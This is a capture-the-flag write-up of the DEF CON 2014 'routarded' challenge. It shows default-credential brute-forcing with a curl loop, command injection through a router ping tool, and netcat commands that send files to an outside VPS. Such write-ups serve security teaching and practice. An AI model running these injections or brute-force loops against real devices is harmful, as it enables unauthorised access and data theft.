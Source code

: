 # DEF CON CTF Qualifier 2014: routarded

**Category:** Baby’s First
**Points:** 1
**Description:**

> Wow, they forwarded http on a router with default creds?
>
> http://routarded_87f7837f50a5370771b9467d840c93c5.2014.shallweplayaga.me:5000/

## Write-up

The hint mentioned default credentials, so we tried some default credentials. After some trying, we found out the credentials were the following:

> username=
> 
> password=admin

We used this to log in on the router. Amongst other things, there was a page to ping ip's and urls. When we attempted to add another command to that, the command was sanitized, but we saw the sanitizing happening! Great, seems like a javascript-only sanitizing!

> 8.8.8.8; ls
> 
> 8.8.8.8

We disabled javascript and tried again. Now we got the directory listing!

> bower_components
> 
> flag
> 
> requirements.txt
> 
> routarded.py
> 
> static
> 
> templates

The flag seemed like the right thing:

> ; cat flag

It returned the following:

> The flag is: l0l, can't believe they still do this shit

## Write-up 2 (@d1rt_diggler)
**note: this is from memory, so some details might be slightly off**

###Wink wink, nudge nudge.
> Wow, they forwarded http on a router with default creds?
>
> http://routarded_87f7837f50a5370771b9467d840c93c5.2014.shallweplayaga.me:5000/

###Casing the joint.
Connecting to the server via browser greated you with a standard HTTP auth prompt... no splash page, don't recall
anything fancy in the headers, not much of a lead...

###Defaults, okay, but WHICH defaults?
I started with your basics by hand (you never know!) admin:admin, admin:password, admin:blank, administrator:administrator, etc.
all without success, I didn't have a password list for router defaults on hand but about 2 minutes of Goog-fu turned some up.  I found http://defaultpassword.com and liked the format and variety, so I just did a full copy and paste of the home page (which lists all the passwords by default, awesome!) and dropped it into a text file.

The defaults were kind of weird though and since it seems to be crowd sourced the standarization for (blank), (none), n/a, etc. was... well, not standard.  I ended up passing the list through a couple grep and awk 1 liners to get only HTTP auth versions and to clean it up the non-standard types for "blank".
```   
$ cat passwords.txt | awk '{print $6" "$7}' > first_pass.txt
$ cat first_pass.txt | awk {gsub('\\(none\\)','',$1); gsub('\\(none\\)','',$2);print $1" "$2}' > second_pass.txt
$ cat second_pass.txt | awk {gsub('n\\a','',$1); gsub('n\\a','',$2);print $1" "$2}' > third_pass.txt
$ cat third_pass.txt | awk {gsub('\\(blank\\)','',$1); gsub('\\(blank\\)','',$2);print $1" "$2}' > last_pass.txt
```
Those turned this...
```
3com    cellplex        7000    Telnet  admin   admin   Admin   No
3COM    CellPlex        7000    Telnet  tech    tech    Admin   No
3COM    CellPlex                HTTP    admin   synnet  Admin   No
3COM    CoreBuilder     7000/6000/3500/2500     Telnet  debug   synnet          No
3COM    CoreBuilder     7000/6000/3500/2500     Telnet  tech    tech            No
3COM    HiPerARC        v4.1.x  Telnet  adm     (none)  Admin   No
```
Into this... (roughly... it wasn't perfect, but I was aiming for "good enough")
```
admin admin
tech tech
admin synnet
debug synnet
tech tech
adm 
```
Now we had a condensed list, but there were some dupes, no use in retrying pairs.
```
$ cat last_pass.txt | sort | uniq > uniq_pass.txt
```
This would turn
```
admin admin
admin admin
admin password
admin admin
admin administrator
admin admin
admin administrator
admin password
```
Into
```
admin admin
admin administrator
admin password
```
Which would reduce the amount of time it needed to test since we wouldn't be pointlessly testing the same creds over and over.

Now I wanted to format these into the HTTP user:pass format for curl
```
$ cat uniq_pass.txt | awk '{print $1":"$2}' > http_auths.txt
```
Which turned the list generated earlier into 
```
admin:admin
tech:tech
admin:synnet
debug:synnet
tech:tech
adm:
```
###We've got our creds, now we need to test em'
Open up good ole vim and pumped out a shell script that would loop over the creds file and attempt
a curl to the router using a set of credentials... if it failed, it would be a 1 line error, if it
worked I'd see a flood of HTML content.
```bash
#!/bin/bash
users=$(cat http_auths.txt);
for user in $users;
do
    echo $user;
    echo "";
    curl -u "$user" "http://routarded_87f7837f50a5370771b9467d840c93c5.2014.shallweplayaga.me:5000/";
    echo "-----"
done;
```
Run it and scan the results for a successful auth.
```
$ ./test_auths | less
```
###[BLANK]:admin
Of course, the one default I didn't think to try by hand... OF COURSE!

###Now we're in, let's look around.
There really wasn't much to see, under the "tools" or "settings" tab (I can't remember which) there were
two tools that caught my eye, one was a traceroute, the other ping.  Running either returned nothing. I 
actually thought something was misconfigured (like legitmately, not in the "break this piece" sense) and
looked around for a few more minutes before deciding to see if I could abuse the ping tool. I was going
in blind though since I couldn't tell if these tools were even getting to a system behind the scenes... 
how could I do a simple blind test to see...

```
ping [ google.com ] 
(page hangs for roughly 3 seconds, loads)
ping [ 127.asdf.asdf.174188 ]
(page loads immediately)
```
Hmmm okay, so it does seem like it's actually running a ping in the background, maybe it's injectable? I can't
really tell from the busted ass web UI tho... maybe I can get it to phone home.  I jump on my public facing VPS
and type in:
```
$ nc -vvv -lp 4545
Listening on any address 4545 (worldscores)
```

Time to find out...
```
ping [ 127.0.0.1; nc myvps.domains.lol 4545; ]
```
YEAH BUDDY!
```
Connection from 133.7.101.256:49245
```

###Scope the joint
Well we confirmed we had an injectable script, and we confirmed we could phone home, now we just need to 
get our hands on that flag... but where the hell is it and where the hell am I?!
```
ping [ 127.0.0.1; ls -lahR /home/ | nc myvps.domains.lol 4545; ]
```
On my listening machine...
```
..snip..
/home/routarded/ (or / I don't remember...)
-rw-r--r--  1 routarded routarded  21   May 14 19:56 flag
..snip..
```

###Gettin' the goods.
Well, we've found it, so we're pretty much done, all I need to do now is read the file and we're golden.
```
ping [ 127.0.0.1; cat /home/routarded/flag | nc myvps.domains.lol 4545; ]
```
And on my listening machine...

```
$ nc -vvv -lp 4545
Listening on any address 4545 (worldscores)
Connection from 133.7.101.256:49245
The flag is: l0l, can't believe they still do this shit
```
## Other write-ups

* (none yet)
